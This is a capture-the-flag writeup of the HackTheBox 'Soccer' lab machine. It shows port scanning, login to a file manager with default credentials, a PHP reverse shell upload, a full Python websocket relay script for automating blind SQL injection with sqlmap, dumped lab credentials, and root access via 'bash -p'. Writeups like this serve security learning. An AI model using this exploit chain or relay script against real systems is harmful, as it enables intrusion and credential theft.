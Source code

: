 # Intro
This is my writeup the **soccer** machine from HTB.
It is an easy rated machine with a lot of fun this to learn
# Initial scanning
First I ran an nmap scan to check for open ports and available services on this machine
```
karim@alpacino:~/Desktop/htb$ nmap -sC -sV 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-19 20:05 EET
Nmap scan report for 10.10.11.194
Host is up (0.068s latency).
Not shown: 978 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
```
so there are three ports open which are 22 for ssh and 9091 for xmltec-xmlmail service which will be usefull in the future and xmltec-xmlmail80 for http and its redircting me to soccer.htb so I added the ip in my **/etc/hosts** file to access the website
![[img/Screenshot from 2023-01-19 20-29-11.png]]

and I was to able to access the website. so I ran a gobsuter scan to find hidden directories  in the website
```
karim@alpacino:~/Desktop/htb$ sudo gobuster dir -u http://soccer.htb -w /opt/wordllists/dirbuster/directory-list-2.3-medium.txt 
[sudo] password for karim: 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordllists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/19 20:33:16 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```
gobuster found a directory called tiny so I opened a login page appeared to me
![[img/Screenshot from 2023-01-19 20-41-47.png]]
After a little research I found that tiny is a file manger so I viewed the source code to find if there is a version number and I found it and it was "**2.4.3**"
![[Screenshot from 2023-01-19 20-45-28.png]]
so I searched online for the default credentials of this version and I found "**admin:admin@123**" so I tried it and worked and I got logged in as admin user
# Initial Foothold
I was prompted to a file managment system with the  ability to upload file
![[Screenshot from 2023-01-19 21-25-17.png]]
so I tried to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) but it was only uploaded succefully in the **/var/www/html/tiny/uploads** directory and I obtained a reverse shell
![[img/Screenshot from 2023-01-20 14-38-32.png]]
I tried to cat the user.txt file in the /home/player directory to obtain the flag but I didn't have the permission to read the file
```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```
so I searched in the default folder for something odd and I found **/etc/nginx** which inticades that there is an nginx server running so I cded to /etc/nginx/sites-enabled and I found **soc-player.htb** file and I found that there is another server running with another subdomain
```
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```
so I added the subdomain to my **/etc/hosts** file and I opened it in my browser
![[Screenshot from 2023-01-20 15-08-20.png]]
And I found that it has a signup functionality and a functionality to book tickets to matches so I created an account and went to the tickets booking page
![[Screenshot from 2023-01-20 15-26-16.png]]
and as you can see I tried sql injection and it appeared that this form is vurnable to blind sql injection so I fired up burp suite to analyze the application and to know what technology it is using.
![[Screenshot from 2023-01-20 15-33-26.png]]
So I discovered that it run websocket and unfortunatly You can't use sqlmap map with websockets directly so searches online and found [this article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that explains how to use sqlmap with websockets.
so I used the script in the article and modified it to be compatable with our machine and here is the modified script
```
from http.server import SimpleHTTPRequestHandler  
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection  
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
 ws = create_connection(ws_server)  
 # If the server returns a response on connect, use below line   
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here  
   
 # For our case, format the payload in JSON  
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure  
 data = '{"id":"%s"}' % message  
  
 ws.send(data)  
 resp = ws.recv()  
 ws.close()  
  
 if resp:  
  return resp  
 else:  
  return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
 class CustomHandler(SimpleHTTPRequestHandler):  
  def do_GET(self) -> None:  
   self.send_response(200)  
   try:  
    payload = urlparse(self.path).query.split('=',1)[1]  
   except IndexError:  
    payload = False  
      
   if payload:  
    content = send_ws(payload)  
   else:  
    content = 'No parameters specified!'  
  
   self.send_header("Content-type", content_type)  
   self.end_headers()  
   self.wfile.write(content.encode())  
   return  
  
 class _TCPServer(TCPServer):  
  allow_reuse_address = True  
  
 httpd = _TCPServer(host_port, CustomHandler)  
 httpd.serve_forever()  
  
  
print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  
  
try:  
 middleware_server(('0.0.0.0',8081))  
except KeyboardInterrupt:  
 pass
```
and I ran sqlmap and the following credentials appeared
```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```
so I logged in via ssh to the machine as player user and I was able to read the user flag
# Privilage Escalation
so I uploaded [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) script and ran it on the machine
![[Screenshot from 2023-01-21 18-30-12.png]]
so I ran the /usr/bin/bash script with the following command
```
bash-5.0$ /usr/bin/bash -p
```
so that's how I was able to be the root user
![[Screenshot from 2023-01-21 18-32-15.png]]
# conclusion
In the end of this writeup I would like to share my thoughts about this machine.
I think this machine is a good one and if you solve it you will learn multipe things like automating websocket sql injection and I think that the creator of this machine should be respected.
